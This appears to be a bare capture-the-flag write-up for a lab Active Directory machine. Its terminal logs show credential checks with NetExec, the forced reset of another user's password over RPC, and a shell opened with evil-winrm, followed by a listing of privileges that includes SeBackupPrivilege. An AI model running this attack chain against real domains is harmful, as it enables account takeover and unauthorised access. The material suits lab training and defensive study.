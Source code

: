 


<img width="1284" height="269" alt="image" src="https://github.com/user-attachments/assets/99ea00a1-0ea4-408b-9e0f-9bda4e425bba" />




root@ip-10-201-108-225:~/K2# nxc smb K2Server.k2.thm -u 'j.bold' -p '#8rockyou'
SMB         10.201.43.198   445    K2SERVER         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         10.201.43.198   445    K2SERVER         [+] k2.thm\j.bold:#8rockyou 





:~/K2# nxc winrm K2Server.k2.thm -u 'j.bold' -p '#8rockyou'
WINRM       10.201.43.198   5985   K2SERVER         [*] Windows 10 / Server 2019 Build 17763 (name:K2SERVER) (domain:k2.thm) 
WINRM       10.201.43.198   5985   K2SERVER         [-] k2.thm\j.bold:#8rockyou


Bloodhound




root@ip-10-201-108-225:~/K2# net rpc password 'j.smith' 'Password123!' -U 'k2.thm'/'j.bold'%'#8rockyou' -S 'k2server.k2.thm'
root@ip-10-201-108-225:~/K2# nxc winrm k2server.k2.thm -u 'j.smith' -p 'Password123!'
WINRM       10.201.43.198   5985   K2SERVER         [*] Windows 10 / Server 2019 Build 17763 (name:K2SERVER) (domain:k2.thm) 
WINRM       10.201.43.198   5985   K2SERVER         [+] k2.thm\j.smith:Password123! (Pwn3d!)




root@ip-10-201-108-225:~/K2# net rpc password 'j.smith' 'Password123!' -U 'k2.thm'/'j.bold'%'#8rockyou' -S 'k2server.k2.thm'
root@ip-10-201-108-225:~/K2# nxc winrm k2server.k2.thm -u 'j.smith' -p 'Password123!'
WINRM       10.201.43.198   5985   K2SERVER         [*] Windows 10 / Server 2019 Build 17763 (name:K2SERVER) (domain:k2.thm) 
WINRM       10.201.43.198   5985   K2SERVER         [+] k2.thm\j.smith:Password123! (Pwn3d!)
root@ip-10-201-108-225:~/K2# evil-winrm -i k2server.k2.thm -u 'j.smith' -p 'Password123!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.smith\Documents> whoami
k2\j.smith
*Evil-WinRM* PS C:\Users\j.smith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
